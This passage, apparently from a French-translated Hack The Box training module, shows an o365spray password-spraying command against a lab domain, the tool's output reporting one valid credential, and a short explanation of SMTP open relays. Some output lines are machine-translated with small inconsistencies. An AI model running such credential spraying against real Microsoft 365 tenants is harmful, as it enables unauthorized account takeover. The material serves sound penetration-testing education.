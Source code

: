 #### O365 Spray - Pulvérisation de mot de passe

O365 Spray - Pulvérisation de mot de passe

```
dsgsec@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'Mars2022 !' --count 1 --lockout 1 --domain msplaintext.xyz

             *** Vaporisateur O365 ***

>----------------------------------------<

    > version : 2.0.4
    > domaine : msplaintext.xyz
    > pulvérisation : Vrai
    > mot de passe : mars2022 !
    > fichier utilisateur : usersfound.txt
    > compte : 1 mots de passe/spray
    > verrouillage : 1.0 minutes
    > spray_module : oauth2
    > tarif : 10 fils
    > sécurisé : 10 comptes verrouillés
    > timeout : 25 secondes
    > début : 2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Exécution de la validation O365 pour : msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALIDE] Le domaine suivant utilise O365 : msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Exécution du spray de mot de passe contre 2 utilisateurs.
[2022-04-14 12:26:32,202] INFO : Mot de passe pulvérisant les mots de passe suivants : ['Mars2022 !']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022 !
[2022-04-14 12:26:33,048] INFORMATIONS :

[ * ] Écrire des informations d'identification valides dans : '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] Toutes les informations d'identification pulvérisées peuvent être trouvées à : '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Identifiants valides : 1

```

* * * * *

Attaques spécifiques au protocole
--------------------------

Un relais ouvert est un serveur `SMTP` (Simple Transfer Mail Protocol), qui est mal configuré et permet un relais de messagerie non authentifié. Les serveurs de messagerie configurés accidentellement ou intentionnellement en tant que relais ouverts permettent de réacheminer de manière transparente le courrier provenant de n'importe quelle source via le serveur de relais ouvert. Ce comportement masque la source des messages et donne l'impression que le courrier provient du serveur relais ouvert.
